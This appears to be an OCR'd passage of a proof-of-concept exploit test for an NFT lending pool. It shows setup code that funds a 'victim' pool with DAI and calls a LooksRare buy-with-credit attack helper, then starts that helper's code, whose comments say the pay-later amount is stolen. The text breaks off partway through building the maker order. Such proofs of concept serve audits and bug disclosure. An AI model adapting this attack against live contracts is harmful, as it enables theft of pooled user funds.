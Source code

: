       // mint DAI to offer
      // We don't need to give taker any money, he is not charged
      // Instead, give the pool money
      await mintAndValidate(dai, payNowNumber, taker);
      await mintAndValidate(dai, poolVictimNumber, pool);
      // middleman supplies DAI to pool to be borrowed by offer later
      //await supplyAndValidate(dai, poolVictimNumber, middleman, true);
      // maker mint mayc
      await mintAndValidate(doodles, "1", maker);
      // approve
      await waitForTx(
        await dai.connect(taker.signer).approve(pool.address, payNowAmount)
      );
      console.log("maker balance before", await dai.balanceOf(maker.address))
      console.log("taker balance before", await dai.balanceOf(taker.address))
      console.log("pool balance before", await dai.balanceOf(pool.address))
      await executeLooksrareBuyWithCreditAttack(
        doodles,
        dai,
        payNowAmount,
        totalAmount,
        0,
        nftId,
        maker,
        taker
      );

In `marketplace-helper.ts`, please copy in the following attack code:

    export async function executeLooksrareBuyWithCreditAttack(
        tokenToBuy: MintableERC721 | NToken,
        tokenToPayWith: MintableERC20,
        makerAmount: BigNumber,
        takerAmount: BigNumber,
        creditAmount : BigNumberish,
        nftId: number,
        maker: SignerWithAddress,
        taker: SignerWithAddress
    ) {
      const signer = DRE.ethers.provider.getSigner(maker.address);
      const chainId = await maker.signer.getChainId();
      const nonce = await maker.signer.getTransactionCount();

      // approve
      await waitForTx(
          await tokenToBuy
              .connect(maker.signer)
              .approve((await getTransferManagerERC721()).address, nftId)
      );

      const now = Math.floor(Date.now() / 1000);
      const paramsValue = [];
      const makerOrder: MakerOrder = {
        isOrderAsk: true,
        signer: maker.address,
        collection: tokenToBuy.address,
        // Listed Maker price not includes payLater amount which is stolen
        price: makerAmount,
        tokenId: nftId,
        amount: "1",
        strategy: (await getStrategyStandardSaleForFixedPrice()).address,
        currency: tokenToPayWith.address,
        nonce: nonce,
        startTime: now - 86400,
        endTime: now + 86400, // 2 days validity